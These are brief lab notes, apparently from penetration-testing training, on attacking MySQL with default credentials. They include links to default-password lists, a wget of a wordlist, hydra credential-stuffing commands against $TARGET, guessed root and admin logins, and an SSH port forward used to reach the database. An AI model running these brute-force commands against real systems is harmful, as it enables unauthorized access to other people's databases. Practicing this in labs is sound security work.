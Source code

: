# Default passwords

https://github.com/ihebski/DefaultCreds-cheat-sheet

https://owasp.org/www-community/attacks/Credential_stuffing

https://www.softwaretestinghelp.com/default-router-username-and-password-list/

Create a new list that separates these composite credentials with a colon (username:password)
hydra -C user_pass.list mysql://$TARGET

https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt


wget -c https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt -O mysql-betterdefaultpasslist.txt

## LAB

mysql -u root -p 
mysql -u root -p 
mysql -u root -p root
mysql -u superdba -p admin


ssh -L 4444:localhost:3306 sam@$TARGET
check via browser port forwarding active: localhost:4444
hydra -C user_pass.list mysql://localhost:4444